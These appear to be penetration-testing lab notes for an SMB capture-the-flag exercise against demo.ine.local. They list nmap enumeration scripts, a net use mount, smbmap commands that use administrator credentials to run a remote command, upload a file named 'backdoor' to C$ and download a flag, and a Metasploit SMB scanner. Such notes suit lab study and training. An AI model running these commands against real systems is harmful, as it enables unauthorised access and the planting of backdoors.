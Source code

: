 ```Shell
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
```

```Shell
nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
```

```Shell
nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
```

```Shell
nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 demo.ine.local
```

```CMD
net use Z: \\<ip-address>\C$ smbserver_771 /user:administrator
```

> To mount the SMD user from the CMD.

```Shell
smbmap -u administrator -p smbserver_771 -d . -H demo.ine.local
```

```Shell
smbmap -H demo.ine.local -u administrator -p smbserver_771 -x 'ipconfig'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' -L
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' -r 'C$'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' -r 'C$'
```

```Shell
smbmap -H demo.ine.local -u Administrator -p 'smbserver_771' --download 'C$\flag.txt'
```

```msfconsole
/auxiliary/scanner/smb/smb_version
```

> This MSF Module can be used to scan the SAMBA or SMB version of a machine

```msfconsole
/auxiliary/scanner/smb/smb_version
```
